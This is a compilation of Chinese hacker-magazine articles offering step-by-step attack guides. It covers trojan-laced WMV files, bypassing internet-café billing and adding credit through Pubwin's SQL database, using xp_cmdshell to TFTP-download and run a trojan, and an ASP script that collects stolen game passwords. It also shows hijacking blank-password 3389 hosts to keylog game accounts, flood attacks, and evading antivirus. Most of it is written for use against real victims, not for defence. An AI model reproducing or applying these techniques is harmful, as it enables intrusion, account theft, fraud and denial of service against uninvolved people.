经过 DRM 加密需要通过 URL 验证证书，我们将这个 URL 事先设置为我们的网页木马地址。当播放已经插入木马的恶意文件时，播放器首先会弹出一个提示窗口要求获取“URL 验证证书”，当网友点击“是”进行验证时，我们便种马了。在 WMV 文件中插入木马需要一样工具——WMDRM 打包加密器，这是一款可以对 WMA、WMV 进行 DRM 加密的工具。软件本身是为了保护媒体文件版权，不过我们要用它来种植网页木马。

安装“WMDRM 打包加密器”，开始我们的种马旅程。

##### 步骤 1

进入“自定义打包”标签，点击“源文件”右边的浏览按钮，选择一个 WMA 或 WMV 文件，然后在下面的“输出目录”里选择生成恶意文件的保存路径，然后在“输出文件后缀”中填入生成的文件后缀，建议和源文件保持一致，如图 10。


图 10

##### 步骤 2

在“URL”栏里输入我们的网页木马地址，如 `http://www.hackerxfiles.net`，其他的保持默认即可，如图 11。

##### 步骤 3

再次切换到“自定义打包”标签，点击“打包加密”按钮，植有网页木马的恶意媒体文件就生成了。当用户打开这个恶意媒体文件时，Windows Media Player 会要求你获取证书，点击“确定”后就会弹出我们的网页木马。

讲了这么多还没有讲网页木马如何制作呢。网页木马制作极其简单，以前的 X 档案中也有介绍，我就不多说了。不过向大家推荐“动控网页木马生成器”，该软件比较好用，功能也比较强大。

好了，今天的种马之旅就到这儿，有什么疑问请来 X 论坛（www.hackerxfiles.net/index.php）一起讨论。

（本文所涉及的软件：热血江湖密码嗅探器、百世经纶捆绑机、冬日捆绑机、Helix Producer Plus 及注册码、WMDRM 打包加密器、动控网页木马生成器已收录在光盘中）


图 11

### 是男人就坚持 1 分钟

今天在网吧上网了很长时间，会员卡里的钱也用得差不多了，网吧的计费系统经常提示：“您的余额不足，请及时充值”。玩得正要命，兜里的钱也不多了，还有一大堆事情要做，难道就这样走人吗？还是免费上网好。

如何才能做到呢？静静地看完下文，从此万象只能存活 1 分钟。我们先来分析一下万象网管 2004 运行的原理：万象网管 2004 运行时需要主机与客户端建立一个 NWLink IPX/SPX/NetBIOS（图 1）。

所以要实现免费上网还得在这上面做文章。有两种方法：第一种方法是直接把上边的那个协议卸载，但卸载后又会出现新问题，系统会提示“此次操作要重启后才能生效”。因为当前网吧普遍都有还原或克隆还原卡，我所在的这家网吧用的就是金盾还原卡，重启后又会还原到先前状态，所以不建议使用这种方法。第二种方法是点击它的属性，如图 2。

看到上面的内部网络号 00000339 没有？我们只要把它改成其他的。下面还有个“帧类型”，直接将其改成不是“自动”就行了，如图 3。

最后按确定保存，我们再回到图 1 的地方，接下来修改 TCP/IP，如图 4。方法和刚才一样，点“属性”选中“自动获得 IP 地址”，如图 5。

好了，现在就可以一直玩下去了。即使你的会员卡上一分钱也没有都不会退出去，整个过程不到一分钟。这种方法的优点是不用断开网络连接，仍然可以继续上网。最后还是说一句话，免费的东西毕竟是不安全的，所以本文只是作为技术交流，请不要用在非法途径上。


### 解除 IE 下载，我有绝招

我特爱听音乐，因此平时经常上网下载 mp3。这天，到一网吧上网，却发现居然有限制不能下载。不得已，我只好使出了我的破解下载的终极绝招，这个绝招可是针对所有管理系统都有效的哟！


#### 一、实现篇

我访问了我的个人主页 http://s7lx.51.net/download.jpg，在这里就可以解除下载限制。方法是打开一个纯文本网页，复制“代码”，粘贴到记事本并另存为 `a.bat`（保存类型选“所有类型”）。双击运行后等待窗口自动关闭，再按提示安装 FlashGet；若受限也可使用 netbardown，并可通过批处理直接执行。


#### 二、原理篇

对于 IE 禁止下载的环境，文中方法并不依赖修改注册表。其原理是将下载器打包为可执行程序，再转换为 bat 在受限环境中执行，下载后自动启动安装。该方法主要依赖 Windows 系统中的关键动态链接库与调试组件（如 kernel32.dll、urlmon.dll、debug.exe），因此在常见环境下具有较高可执行性。

“好了，相信大家都学会我的这个绝招后，网吧不能下载绝对不可以成为历史了吧，哈哈。”（文中提及的工具 netbardown 以及 s7lx 下载者代码已收录）

### 呆呆问吧

- **问：** QQ 在离开状态时如何自动回复好友并自定义表情？  
  **答：** 先在 QQ 安装目录找到 `Custom Face`，重命名并替换表情资源，再在“状态转化和回复”等设置中加入自定义回复内容。

- **问：** Windows XP 中可用空间不断变小是为什么？  
  **答：** 与 `System Volume Information`（系统还原）文件夹有关，可在“系统还原”中调整或关闭相关功能；若需清理内容，需管理员权限操作。

### 菜鸟也玩免费上网

近来看了很多在网吧免费上网的文章，心里也有点痒痒，就到网吧里试试身手。没想到我这样的菜鸟也能免费上网。现将我的破解过程表述如下。先从注册表下手，但倘若注册表被管理员禁用了，该怎么办？没关系，打开记事本，编写如下代码（图 1）。

```reg
REGEDIT4
[-HKEY_CURRENT_USER\SOFTWARE\MICROSOFT\WINDOWS\CURRENTVERSION\POLICIES\SYSTEM]
"DisableRegistryTools"=dword:1
```


保存为 .reg 文件，双击把它写入注册表。不过以上这段代码只对 Win2000 有用，在 WinXP 下就没用了，怎么办呢？当然有办法，编写如下代码（图 2）。

```inf
[Version]
Signature="$CHICAGO$"
[DefaultInstall]
DelReg=DeleteMe
[DeleteMe]
HKCU,"Software\Microsoft\Windows\CurrentVersion\Policies\System"
```


保存为 .inf 文件，然后鼠标右键点安装就行了。到这里就可以打开运行对话框输入 regedit，点“确定”（如图 3），可以打开注册表。


下面是最关键的一步，打开注册表定位到 `HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run`（图 4），运行项还真不少，管它呢，全部删除，特别是那些网吧管理软件，一定要删除。然后注销你的电脑，记住是注销。按 Ctrl+Alt+Del 调出任务管理器，啊！那样，注销被屏蔽了，但这也难不住咱。同样打开注册表，定位到 `HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer` 分支，删除右边的 NoLogOff 就行了（图 5）。


再次打开任务管理器，其中的注销是不是变成了可选状态？下一步就地注销你的电脑了。注销成功后，我跑到旁边的电脑登录我刚才登录的账号（由于本人是网吧会员，使用的是“网络身份卡”），然后自助结账，再回到最开始破解的那台电脑，下面就开始你的免费之旅吧！


## 网吧黑客

### 简简单单 iKeeper 破解

@niyele


看了那么多期的 X，网吧黑客栏目里讲的基本上都是怎么破解美萍、万象、Pubwin，怎样在安装了美萍、万象、Pubwin 的网吧里免费上网。但我们重庆这儿却大部分使用的是 iKeeper，以前那些方法都不适用……经过多天努力，现在把我的收获奉献给大家。

我们这儿的网吧使用的是 Windows XP 系统。一开始我想在注册表里删除 iKeeper，但菜单里没有“运行”。后来想到“Win+R”快捷键，成功打开运行栏（图2）。

输入 regedit 打开注册表找 iKeeper，半天也没找到。于是到硬盘里查找，在“我的电脑”地址栏输入“c:\”（图3），继续查找可能的安装目录（如 Program Files\Client）。

研究后发现：Windows 启动时按 F8，选择“目录恢复模式启动”可跳过 iKeeper。这样可正常上网、聊天、游戏（图4、图5）。


使用安全模式容易被网管发现，不过在人少的时候使用，被发现的概率较低。该方法在 Windows XP 下测试可行，在 Windows 2000 下似乎不行。

## 灵异问吧

问：我的硬盘分区改变后，部分分区状态异常，如何处理？

答：在 RAW 分区属性中调整权限与安全设置，补充当前用户权限；必要时先备份数据，再进行文件系统修复与分区检查。

问：电脑开机出现“CMOS checksum error - Defaults loaded”，时间变为 2001 年，怎么办？

答：通常是 CMOS 电池电量不足或主板 CMOS 设置异常。可先更换主板电池；若仍异常，检查主板与 BIOS 设置并进行进一步检修。

### PubWin.net 之内码归来记

Jory chen[Z.S.H]  
&(FreeGuest)


在 06 年第 1 期的杂志中，我给大家介绍了如何在 Pubwin EP 环境下实现加钱的方法……但好景不长。那天和往常一样，我拿出 MySQL Query Browser，结果却连接不成功……升级成了 Pubwin.net（05 年 12 月发布）。

我下载升级文件到本地，用调试/十六进制工具打开 SMDLL.dll（在 ServiceManager.exe 里找到），然后查找“sa”“password”“pwd”“user”……最终在“MSSQL”附近找到连接信息，如图2。


#### 一、向加钱的目标前进

我个人认为 Pubwin.net 由于采用了刷卡机制，客户端限制并不安全……如果修改数据库加钱被发现就不好了。所以要想免费上网，最安全的方法莫过于修改数据库加钱。

- 1. 替换数据库文件（老版本思路）。
- 2. 在网吧主机开启一个 MSSQL SNIFFER 抓取连接信息。
- 3. 用 WINHEX 等工具分析 Pubwin 服务端程序，查找 MSSQL 连接账号与密码。

我是菜鸟一个，之前没有亲自架设过 MSSQL SERVER 2000……最终采用了第三种方案。先入侵网吧主机，上传并运行 RADMIN，然后在进程/文件中定位 EP 升级文件与相关组件。


看到账号和密码后，尝试连接数据库，发现结构与此前类似，执行 SQL 语句即可加钱。文中进一步介绍了 OSQL.EXE 远程连接、端口映射（1433）以及 SQLBrowser 中新建连接的方法，并在“SQL命令”窗口中执行 update 语句修改 cur_user 等表数据。

## 网吧黑客

```sql
Prepay = 1500 where uniqueid=520000
```

> 注意：命令执行成功后，需要“注销关机”，如果你不注销一下而直接关机，那么修改的操作将不能生效。因为最后写入数据库的是主机上显示的数据，而我们修改的数据就会被覆盖。


OK，我们加钱又成功了，是不是很方便呢？读者 B：你不是说 Pubwin.net 用的都是 MSSQL 吗？而且还不限制远程连接，那我们不是可以在所有网吧称王了吗？哈哈~~确实是这样，Pubwin 开发团队又一次自作聪明，把 MYSQL 换成了 MSSQL，却不知微软的东西一向以非安全著称，这回他们可是赔了夫人又折兵了，而我们这些菜鸟也托开发团队的福，可以在网吧尽情通宵了（路人乙：黑客失鸡，焉知非福）。

- 1. 对 MSSQL 的每一项操作都会有记录，因此我们要及时擦 PP 才行。
- 2. Pubwin.net 既然是 EP 的升级版本，会不会有防加钱的啥级功能呢？没研究，不清楚。
- 3. 如果你是批量安装的 Pubwin.net，而不是从 EP 升级而来，那么它的 MSSQL 连接密码可能会不同。我在实验过程中确实发现过一个，开了 1433 却连接不成功，排除网管修改密码的可能性。如果大家也遇到了，可以按我的方法自己搞定 MSSQL 的连接账号和密码。

#### 二、先下手为强，后下手……

细心的网管可能发现有人非法加钱，然后把 1433 隐藏起来，所以我们需要提前用 MSSQL 在主机上放一个 COOL 一点的木马，省得没了 1433 端口后就无从下手了。这里我们要用到 SQLEXEC.EXE，使用比较简单。在执行命令输入框中输入 `DIR \` 测试一下，效果如图7。


```bash
TFTP -i 192.168.0.26 GET XP.EXE
XP.EXE
mt --findpass
mt --clone <SourUser> <DestUser>
```

命令执行成功，说明 PUBWIN 并没有删除 XP_CMDSHELL，太不小心了：）。接下来执行 TFTP 下载并运行木马程序。如果你仍不放心，可以用 MT.EXE 查出当前管理员口令，再用它克隆 GUEST 账号。

#### 三、结尾

我在测试过程中也发现一个问题：有的网吧客户机因为装的是 XP 精简版，导致了 ODBC 驱动程序出现问题。我用 SQLEXEC.EXE 可以连接 MSSQL，也可以正常执行 CMD 命令，但用“QLBrowser（数据浏览器）”却进不去，提示连接错误。我尝试安装 MDAC，但是需要重启，网吧又有还原卡，重启以后什么都没了，所以要先破解还原卡。

在今年 3 月份的杂志中有一篇文章教大家怎样判断主机 IP，他用了“ARP -A”来查看 ARP 缓存表的方法。要从那么多 IP 中挑出主机 IP 好像也很困难，大家还是用我的 WinSock Expert 定位法吧。100% 精确 + 100% 成功 + 任何网管软件适用，当然工具不止一种，鄙人菜鸟一个，若各位看官有什么高深的见解或者发现了文章中的错误和不足，请上 X 论坛赐教。MYPC59 是也。

（本文中并未涉及到的 Pubwin.net 升级文件、Recton、QSL.EXE、SQLbrowser1.0 和 SqlExec 已收录到光盘）

### 梦幻西游木马之旅

### 采写江湖之

梦幻西游是国内玩的人数最多的一款网络游戏了（网上这么报道来着），正因为玩的人多，特组织此次盗号之旅，此去途中风高浪急，惊险刺激，望各位驴友好自珍重，旅途愉快。

出发之前先向各位朋友介绍一下本次旅行所乘坐的交通工具——木头牌梦幻西游生成器，此工具做工优良，身材小巧，而且安装后没有进程，可以躲过防火墙，作者保证没有后门、无注册码保护和小键盘，能准确取得账号信息包括大区、服务器、账号、密码、截取人物名称（木头工作室别忘了给我广告费）。

请大家抓紧时间慢慢上车，我们的盗号之旅准备启程了。

```asp
<%
num=request("num")
pass=request("pass")
set fs=server.CreateObject("Scripting.FileSystemObject")
set file=fs.OpenTextFile(Server.MapPath("mhxy.txt"),8,TRUE)
file.WriteLine num
file.close
set file=nothing
set fs=nothing
response.write "Send OK!"
%>
```

要修改的代码为第五行的“mhxy.txt”，我们把它改成自己喜欢的文件名，最好是能让浏览器解析的文件类型，省去下载的步骤。修改好后保存文件，现在可以把文件上传到空间中，文件名也尽可以修改。我们在木马的 ASP 收信设置处填上收信文件的地址，再点击测试收信，看看我们设置的收信文件有没有老实工作（图2）。


梦幻西游生成器的界面如图1，从界面中我们能看出这个木马有两种收信方式：ASP 收信和邮箱收信。


它的 ASP 收信文件只有一个，把接收到的账号信息保存在指定文件中。这种收信方式适合有空间的朋友，当然用网马也可以，在把收信文件上传到空间前要修改一下保存账号信息的文件名，以免被别人看到。用记事本打开收信文件“mhxy.asp”，它的代码如下：

使用邮箱收信的朋友最好准备两个邮箱，一发一收相得益彰，最重要的是不能赔了夫人又折兵。我使用 126 的邮箱发信，21cn 的邮箱收信。发信账号和发信密码是发信邮箱的账号密码，SMTP 也是发信邮箱的 SMTP 服务器，126 邮箱的 SMTP 服务器地址为：smtp.126.com。这些都填写完毕后，点击测试收信，登录我的收信邮箱看到了测试信已经发送过来了（图3）。


这两种收信方式可以单独使用，也可以双管齐下。如果不小心误中了木马，程序本身还带有清除功能，点击清除文件后会出现如图4的提示，注销项清除完毕选择“是”，机器重启后程序会自动清除系统中的梦幻西游木马。


我在选择“否”时桌面会消失后重新出现，所以我猜测木马可能是插入 explorer.exe 进程，这也就是作者所说的无进程。

真正的战斗现在才开始，我从肉鸡中找出一个正在耍梦幻西游的小朋友，让他来尝尝这木马的味道（你没有肉鸡呀？可惜寻找肉鸡不是我们此次旅行的节目，具体方法在 X 新出的《网游黑客宝典》一书中已经全程收录了）。这是我告诉各位团员：梦幻西游的进程名为“my.exe”，大家可以不再使用传输速度超级慢的查看屏幕，直接查看进程就能确定（图5），为了验证就再让大家看看他的屏幕（图6）。

接着就是利用文件管理把木马传上去，然后运行我们可爱的小马（图7、图8）。最后把梦幻西游的进程结束掉，等玩家重新登录时木马就会把他的账号和密码送给我们，图9为我在空间中收到的账号信息。

在这过程中我还碰到了有趣的一幕，我在查看某人屏幕时，正好看见他把一个百级龙宫账号告诉别人，我刚好把那一幕的图给截下来，后来发现他把密码改了，那我就把图发出来给大家看看（图10），希望这位仁兄不要怪我，还是抓紧学习吧，嘿嘿。


> 天下没有不散的筵席，旅程的终点也到了，不知道大家玩得是否尽兴，想参加下次旅行的朋友，请随时关注我们。（文章中涉及到的工具梦幻西游生成器已经收录于光盘中）


### 无差别密码


自从上次组织了一次梦幻盗号之旅后，不断有人询问怎么得到肉鸡和向我要盗号木马，其实这些内容在《网游黑客宝典》一书中都有详尽的介绍。不过我这次要介绍的抓鸡大法却是最近几天才想到的，那就是 3389 空口令抓鸡大法，注意了呀，我说的这个空口令可与菜菜们知道的那个空口令不完全一样！

说起这个漏洞的产生，还要追究到一版 Windows XP 的 Ghost。我到现在都搞不明白，制作这个 Ghost 的朋友为何会在开启默认关闭的终端 3389 登录服务的情况下来制作 Ghost，更搞不明白的是，目前有许多朋友装机时安装的都是这个 Ghost 的 XP 版本（最起码在北京地区多的是），难道是对方故意留下这个漏洞，好方便自己以后入侵吗？且不太关注这个问题，但有一点可以肯定的是，方便了我等小菜！

石头

这种版本的系统会新建一个名为“new”的空密码管理员账号，有的直接用 Administrator 就可以登录。我在自己的 IP 范围随便扫描，就可以找出一大堆开 3389 的个人电脑，大多数使用空密码都可以进去。希望那些新装机的朋友在安装完系统后一定要检查一下，别发现别人之前自己先中招了，那可就丢菜鸟的人了！

先用扫描器确定我们的攻击目标，打开扫描器 L-ScanPort2.0，扫描的 IP 范围就定在我的周围（可以先到 http://www.ip138.com 查询自己的 IP 地址，在软件中填入起始和结束 IP，勾选“自定义”端口并填入扫描端口范围（3389-3389），点击“开始”启动扫描，结果如图1。

## 网游江湖

有了这些开了 3389 的 IP，我们可以一个个去尝试登录。依次打开“开始→所有程序→附件→通讯→远程桌面连接”，输入扫描到的 IP 点击连接，在远程登录界面的用户名输入 `new`，密码为空（图2），点击确定登录。


由于 Windows XP 默认是单用户登录系统，而许多电脑的主人也都用相同的 `new` 用户登录，这样我们登录上去对方就会“掉线”。如果对方重新登录，双方会发生连接争抢，导致远端连接中断（图3）。

怎么在短时间内取得别人电脑控制权是首先要解决的问题。可利用网页木马或直接下载服务端执行。网页木马快但成功率受补丁影响；直接执行服务端成功率高但较费时，因此需要体积小的服务端。文中使用 Pcshare 生成服务端并通过网页文件投递。

在控制端选择“启用自定义 URL 转发……”，输入网页文件地址、客户自带标识、主进程名 `winlogon.exe`，并勾选键盘监控、自动删除 EXE，测试 URL（图4）。


更新网页文件后，把生成的服务端上传到空间。登录先前扫描到开放 3389 的主机，粘贴下载地址并执行。在弹出的下载窗口点击“运行”（图5）；若弹出安全警告继续“运行”（图6），即完成执行。


通过该方法可控制大量“肉鸡”。使用“屏幕监控”可查看对方正在进行的操作与游戏，并可结合键盘监控进一步获取信息。文末提到在游戏场景中的一次演示（图7）。


图7

图10

我选定的目标是一个玩征途的肉鸡，今天就盗这个套用传奇的系统、魔兽的界面，却号称中国第一 2D 网游的账号（图8）。首先开启“键盘监控”，然后打开“进程管理”结束掉征途的进程（图9），等对方再登录游戏时就会记录到账号和密码（图10、11、12）。


图8

图11


图12


图9

在这里我给大家提供几个熟悉的游戏进程：

| 游戏 | 进程 |
|---|---|
| 魔兽世界 | wow.exe |
| 梦幻西游 | my.exe |
| 传奇 | mir.exe |
| 征途 | zhengtu.dat |
| 大话西游2 | xy2.exe |
| 街头篮球 | FreeStyle.exe |
| 劲乐团 | O2Jam.exe |
| 劲舞团 | patcher.exe |
| 梦幻国度 | mland.exe |
| 热血江湖 | launcher.exe |

使用远程控制就可以进行无差别盗号，想要什么号记录一下就 OK 了。找肉鸡、盗号就是这么简单，赶快操练起来吧，晚了连骨头都没了。

> （本文中所涉及到的 L-ScanPort2.0 和 PCSHARE 都已收录到光盘中）

就像文章说的，其实 X 小编也挺纳闷的，为何在制作 Ghost 镜像时，要打开 3389 呢，而且也真的没有想到，这款 XP 的镜像居然被广泛用于新装机用户的系统安装。小编不清楚别的地方的情况，但在北京，这种系统可是很多，在利用石头的远程控制木马，结合杀掉网游进程，进行键盘记录的方式，盗号可是太轻而易举了。

## 菜鸟进化跑菜

——小黑 N.C.P. 常用攻防网络入侵器

俗话说得好，“好将军手下不能没有好士兵，好士兵手中也不能没有好兵器”，对于我们这些在网络上混的朋友，也是如此，没有一个好的攻防工具，还怎么玩啊？所以嘛，今天我就给大家带来了一款网络攻防入侵器。

既然是个网络工具，当然少不了浏览器的集成，看起来感觉像 MYIE 浏览器，但是在功能上却是我们玩黑专用的浏览器，还是来让大家开开眼界吧，如图1。整体界面比较整洁，那么常用的功能我就不说了，主要功能嘛，看到我画了框框的地方，那些就是我们常用的东西了。不是说了这工具简称为常用攻防网络入侵器嘛，当然就是集成了攻击和防守的功能啦。那下面我们就把它划分为两部分来玩玩。

图1

图2

#### 一、防守篇

##### 1. 进程管理

我们看到左上角的螺状图标，它是个进程管理的工具，我们点一下，就会在右边出现一个进程管理器，再点一下刷新按钮，就会列出本机所有的进程，可以方便我们发现可疑的进程，以后就不用再麻烦使用 CTRL+ALT+DEL 来调用任务管理器了。而且，这里集成的进程管理器可以强制结束任何一个进程；无论是用户进程还是系统进程，都可以强制终止，相当于 MT.EXE。你选中一个进程，然后在前面打上勾，选择下方的叉叉就可以结束了，如图2。

##### 2. TCP/UDP 连接

我们上网少不了有时候会遭遇不测，不小心中了别人的盗号程序，或者木马什么的。我们知道中了木马，就肯定会跟对方有连接。这时候，只需要点击那个网络连接的按钮，就可以一清二楚地看到所有的网络连接了，对于我们分析是否中了木马是个不可多得的好工具！另外我们最好要选择“定时更新”，那样才可以更好地进行动态的分析。若不喜欢这种图形界面的高手，也可以选择 cmd 模式的，在“命令”下拉列表中，输个 `netstat -na` 也可以看到所有的连接，如图3。

图3

##### 3. 命令

命令管理栏目里面集合了许多关于本地计算机的设置，当然对于安全方面的防范是起了很大的帮助作用的，如图4。

分别有：计算机管理——查看本地用户组有没有可疑的用户，预防别人在自己的机器上创建了管理员用户；任务管理器——查看进程；本地安全策略——密码策略、账户锁定策略、本地策略、审核策略、IP 安全策略、软件限制策略，如图5所示。可别小看这些策略，如果我们设置妥当，几乎可以抵御所有的黑客入侵行为……（本段介绍安全策略与本地服务设置、注册表管理等）。

图4

图5

本地组策略管理——注册表的一个图形化映射，功能跟注册表一样，只是比注册表更容易设置、管理。还有一些常用的网络命令：ping、telnet、netstat -na、netstat -s、ipconfig、tracert。

……要是想针对自己预定的几个或者几十个 IP 的特定端口（例如 3389、4899）进行扫描，可以从文件加载 IP 地址，再进行扫描或定点扫描（如图7）。

图7

##### C. 4899 过滤器

对于批肉鸡，这个工具集成了一款 4899 探测器，只需把起始 IP、结束 IP 填写上，就可以开始搜索（如图8）。

图8

以前玩黑时，这样可以扫到一批鸡……

### D. 网站后台扫描（可以自己添加页面进行扫描）

网站后台扫描是常用工具，进行注入攻击时常需要账号和后台地址。可尝试登录页过滤不严、利用简单注入条件等情况，首先扫描网站后台地址（如图9）。

图9

> 小提示：在用此工具的时候，我们还可以把自己平时积累下来的比较不常见的后台地址名给添加上去，那样我们扫描后台的成功率会大大提高了。

#### 二、入侵篇

##### 1. 设置代理

嘿嘿，入侵前要做什么？……最低限度要用代理……工具里集成了一个代理管理器，可设置代理名称并选择地区代理，设置好后即可使用。

##### 2. 踩点

###### A. IP/域名/地区互动查询

入侵一个网站前要对其 IP、地区进行查询，相当于了解目标信息。工具集成了“IP/域名/地区互动查询”（如图6）。

图6

这样，几步轻松的操作就让我们对目标的信息了解得差不多了。

###### B. 端口扫描

我们知道入侵一台机器，首先要看对方对外开放了什么端口……获得 IP 后点击端口扫描，设置起始和终止地址即可进行区域扫描。

##### 3. 连接器

- A. 连接 3389
- B. 连接 4899
- C. 连接 1433

扫描到 3389、4899、1433 端口后，可进行登录或管理操作……工具内集成连接器，使用更方便（如图10，图未完整显示于本页）。

##### 4. Windows 系统自带捆绑

入侵中少不了木马，有时需要用到捆绑工具，这里也有集成，不再需要频繁寻找外部工具……

带的捆绑可以捆绑安装程序、游戏什么的，来欺骗别人运行；这未尝不是一个好方法哦。

##### 5. 洪水攻击

对于实在拿不下的站点，但是非常讨厌，例如我们比较讨厌的境外那些 XXXX 反华站点，不用客气的，来个最强的洪水攻击，如图11。

首先新建攻击，然后填写上伪 IP，选择好速度，就可以开始进行疯狂的攻击了 ^_^！

##### 6. 扩展工具

考虑到程序的大小，方便携带，所以作者就把这些常用的工具集合到其中，但是不可能满足到所有网络爱好者的需要，所以呢，这工具还具备了扩展的功能，我们只需点击“扩展工具”，就可以任意添加一些小工具到里面，方便自己使用了。

总结一下，这款综合型的攻防器，的确是网络人员必备的一款好武器，希望大家喜欢。（本文涉及的相关工具：N.C.P. 常用攻防网络入侵器，光盘中有收录。）

### 文件改名也疯狂

现在，越来越多的杀毒软件都已经把黑客软件列入查杀的范围，害得我们在入侵时要用个什么 ca.exe（克隆账户）之类的，自己电脑上安装的杀毒软件都会报警（图1）。更不用说把这类软件上传到肉鸡上去运行了。试想想，好不容易得到一个 shell，千辛万苦地把黑客工具传了上去，却又眼巴巴地看着它被肉鸡上的杀毒软件给杀死，心情自然不爽。

说是感觉不爽，但对于刚刚学习黑客入侵的小菜们，他们哪里懂得修改特征码这么高深的学问呢？就只能“望而却步”，对“鸡”长叹了！

说了这么半天，那么有没有一种简单的方法，既不需要什么高深的知识，又可以方便小菜们解决这个问题呢？答案当然是肯定的——那就是修改文件的扩展名。上面的图1是我在本机解压缩时杀毒软件报警的截图，但是我把文件扩展名改成 txt 后（主文件名也被我改了，ca.exe 变成了 c.txt），再在 cmd 下运行它，杀毒软件就不会报警；但一改回 exe 扩展名就会马上被金山毒霸给杀掉（图2）。

可能有黑友要说了，你可以把肉鸡上杀毒软件的进程给停了呀！因为现在的杀毒软件大都是通过服务的方式来加载的，只要停掉相应的服务就可以终止杀毒软件相应的进程。此法虽然简洁而有效，但万一对方此时刚好在线，发现自己电脑上的杀毒软件失常退出……结果不言而喻。如果这样的话，就要到手的“肉鸡”岂不要飞了？

也许别的黑友又要说了，你可以先把黑客程序脱壳，再换一种加壳软件进行加壳，或是修改特征码之类的，岂不就可以成功地躲过杀毒软件的查杀了呢？这个方法自然是十分有效，可以……但是我发现，文件的扩展名也不能随便改，像改成 jpg，不知道为什么就会被金山毒霸给杀掉（图3）。

图3

大家可以多试几个文件扩展名找一下规律。不过，我建议大家注意：文件名一旦改了，程序经过改名后，谁会知道这是一个黑客程序，又有谁知道这是个可执行程序呢？像我改名后的 c.txt，在 Windows 下双击打开它，就只会看到一大堆乱码，谁能猜想得出这居然是小榕著名的克隆工具 ca.exe，如图4。

图4

也许小菜们会觉得这很神奇、不可思议。其实原理很简单——cmd 判断文件类型的方法不同于 Windows。在 cmd 中，系统首先判断文件的类型是否是可执行文件，而判断的依据并不是文件的扩展名，而是文件头的 PE 段。如果是可执行文件，就执行它；如果不是可执行文件，就根据相应的关联，启动相应的程序打开它……正因为这样，我们才可以成功地骗过 Windows 和杀毒软件。

> （小编注：该方法虽简单易行，在 CMD 下不错，但还是不太保险，Windows 下的杀毒软件比较容易查出来，朋友们还是多学习把它，本期小手册上的东东再研究下，你的功力便大增了。）

### 超级菜鸟的 S 扫描要素

在 X 档案上曾经介绍过许多扫描工具，不过我今天要说的却是——s.exe，它号称世界最快的扫描器。s.exe 是一个在命令行下使用的扫描工具，我们先来看一下它的用法。

图1

图2

现在我来简单解释一下 s.exe 的参数格式：`s TCP/SYN StartIP [EndIP] Ports [Threads] [/Banner] [/Save]`。参数说明：TCP/SYN、StartIP、EndIP、Threads、/Banner、/Save 等分别对应扫描方式、起止 IP、线程数、抓取 Banner 与保存结果。

假设我们要扫描内网里所有开放 139 端口的电脑，就在 cmd 里输入：`s syn 172.16.28.1 172.16.28.254 139 /save`。如果我们要找 1433 端口，可能还会涉及 SA 权限相关尝试。

不过 s.exe 还有一个小问题必须说明一下，也就是 SP2 下不能正常使用的问题。可以用下面命令绕开限制：`s tcp 172.16.28.1 172.16.28.254 139 700 /save`（注意空格）。

图3

好了就说到这里了，祝大家在新的一年里……多来 X 档案就什么都有了！（文章中涉及到的程序 s.exe 已经收录于光盘。）

## 傻瓜黑客

天气越来越冷，只好整天呆在宿舍里面玩游戏了，手机忽然响起，发现铃声有点难听，于是就到各大门户网站的彩信板块乱逛，看看能找到什么免费资源。经过一个多小时的奋斗研究，想到了抓包！实际情况嘛！经过一番抓包过后，我发现每个网站都一样，可以实现免费下载铃声哦！还有收藏图片免费册！（前提是你要有数据线，或者通过 GPRS 下载也行），这个就是各大网站的通病。

### 一、工具

WsockExpert 当然就是我们今天的主角了。浏览器我用的是 MYIE2（傲游），OK，工具就是这么多。

### 二、详细步骤

找到想免费下载的铃声或图片。首先我拿铃声来说，就拿 sohu 来开刀吧，来到彩信板块的疯狂音效处（其实去和弦铃声也是一样的），随便点击一个音效，如图1。

打开以后，再打开今天我们的主角 WsockExpert！在 WsockExpert 中，选择打开图标，在选择进程进行监听那里，选择 Maxthon.exe 左边的“+”号（傲游的就是这个进程名），展开以后再选择“搜狐彩信—傲游”，如图2。单击“打开”。

现在再回到傲游的搜狐疯狂音效，见前边的图1，并刷新一遍，你就会发现你的 WsockExpert 里面有很多的数据包出现（这样才正常），等到听见了声音后，点击 WsockExpert 的暂停键停止抓包。好了，菜单可以慢慢找下载地址，然后以此做法继续找到下载地址，如图3。

看到了么？在第25行，数据很长，在中间的一个脚本里面 `http://img.mms.sohu.com/mms/1507/08/6208/pl.wma` 就是铃声的下载地址了。不信？那我验证一遍好了，打开 Windows Media Player，点“文件”→“打开 URL”→“输入前面的地址”，马上传来一阵防空警报的声音（前面我是点击防空警报音效的）！怎么样？加上手机数据线，完全免费的铃声！我就是这样下载的哦，屡试不爽！

下面来看一下图片的下载。在我打算下载图片的时候，163 对图片进行了处理，那就是把一幅透明的图片覆盖在真正图片的上面，导致“右键”→“属性”里面的连接是一个假地址！要解决问题，还是通过抓包。

开 IE，在地址栏那里粘贴以上网址，如图6。

完全正确！哈哈，现在相信了吧！

好了，文章就到这里，没什么技术，纯粹是资源的共享，里面提到的方法不要乱用，不然人家就没钱赚了！

（文中涉及的相关工具：WsockExpert 0.6 汉化版，光盘中有收录。）

### 从网管组用户享受特权

王艺翔

有时候我们为了系统安全都会用普通用户登录操作系统，当然了，如何建立一个普通用户呢？方法很简单，首先我们可以通过可视化界面的方式来建立用户，如图1。

同样我们也可以通过命令行操作来达到效果，我们在命令行下输入 `net user wvw sj /add`，这样一个名为 wvw 的普通用户就建立了（如图2）。但是这样建立的账号只有 users 组权限，而没有 administrators 组权限。users 组和 administrators 组有什么区别呢？users 组的用户一般是不能安装软件的……

事情发展总不是一帆风顺的，有时候总会出现这样那样的问题。比如我们现在是以 users 组用户登录系统，这个用户是 users 组的，那么如果我现在突然间想装个软件怎么办呢？岂不是要切换用户？那现在有没有什么简单的方法可以实现通过 users 组用户安装软件呢？Windows 操作系统考虑到了这一点。

- 一、比如我现在 D 盘有个 RealPlayer.exe 需要安装，我们右击此文件选择“运行方式”，出现图3所示界面，在“下列用户”中选择一个具有管理员权限的用户（例如 administrator），输入密码（如图4），再按下“确定”即可。

`runas /user:administrator d:\RealPlayer.exe`

我们依次点击“开始”→“运行”，在运行框中输入上述命令，随后会弹出如图5所示窗口，在窗口中输入 administrator 用户的密码即可。这样软件便可以安装成功了。

那这两种方法有没有什么区别呢？区别当然有了。我们现在可以做个实验……

